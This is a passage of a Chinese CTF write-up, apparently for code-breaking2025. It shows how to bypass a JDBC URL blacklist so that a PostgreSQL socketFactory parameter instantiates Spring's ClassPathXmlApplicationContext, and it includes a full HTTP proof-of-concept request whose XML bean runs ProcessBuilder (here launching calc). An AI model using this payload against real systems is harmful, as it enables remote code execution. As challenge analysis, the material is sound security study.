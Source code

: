 利用postgresql jdbc attack调用任意构造函数，进行上述不出网spEL利用

postgresql jdbc SpEL payload：

```java
jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://target/exp.xml
```

但是postgresql jdbc存在黑名单。不允许“jdbc:postgresql”和“socketFactory”同时出现

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417225241736.png)

但是request.getParameter是以`&`分割参数的。假如存在`?url=xxx&a=bbb`，那么getParameter("url")的结果是`xxx`

而@RequestMapping("jdbc")得到的是整个向jdbc路由传输的字符串。&符号前会加`,`作为分隔符。如`?url=xxx&a=bbb`会得到`?url=xxx,&a=bbb`

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417225700080.png)

而postgresql多一个垃圾参数并不会影响执行

所以code-breaking2025的poc：

```http
POST /jdbc?url=jdbc:postgresql://1:2/?a=&url=%26socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext%26socketFactoryArg=file:/%24%7bcatalina.home%7d/**/*.tmp HTTP/1.1
Host: localhost:8080
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary82BQUgX63J4cIEmr
Content-Length: 141

------WebKitFormBoundary82BQUgX63J4cIEmr
Content-Disposition: form-data; name="key"

<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg name="command" value="calc"/>
        <property name="whatever" value="#{pb.start()}"/>
    </bean>
</beans>
------WebKitFormBoundary82BQUgX63J4cIEmr--
```

注意一定要对后半段url参数中的`&`进行URL编码。不然会被误认为是向jdbc路由传递五个参数。导致postgresql构造函数传的参数为`org.springframework.context.support.ClassPathXmlApplicationContext,`从而报错

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417230739277.png)
